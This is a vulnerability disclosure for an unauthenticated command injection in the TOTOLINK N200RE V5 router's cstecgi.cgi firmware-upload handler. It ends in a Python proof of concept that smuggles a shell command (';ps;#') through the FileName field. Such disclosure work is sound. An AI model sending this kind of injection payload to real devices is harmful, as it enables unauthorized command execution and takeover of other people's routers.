# TOTOLINK N200RE V5(V9.3.5u.6139_B20201216) router has command injection vulnerability
## Information

Vendor：http://totolink.net/

Firmware：https://www.totolink.net/home/menu/detail/menu_listtpl/download/id/204/ids/36.html

## Affected Version
V9.3.5u.6139_B20201216
## Vulnerability Analysis
The following image displays the code for a command injection vulnerability in the `UploadFirmwareFile` handler function of  `cstecgi.cgi`. The value of the `FileName` parameter will be spliced ​​into the `mv %s %s` and be excuted by `doSystem` function, which allows an attacker to excute any command. **The vulnerability do not need auth.**


![Vulnerability](./code.png)
## POC
```python
import requests

url = "http://192.168.0.1/cgi-bin/cstecgi.cgi"

payload = """{
    "topicurl": "UploadFirmwareFile",
    "FileName": ";ps;#"
}"""

requests.request("POST", url, data=payload)
```
![postman](postman.png)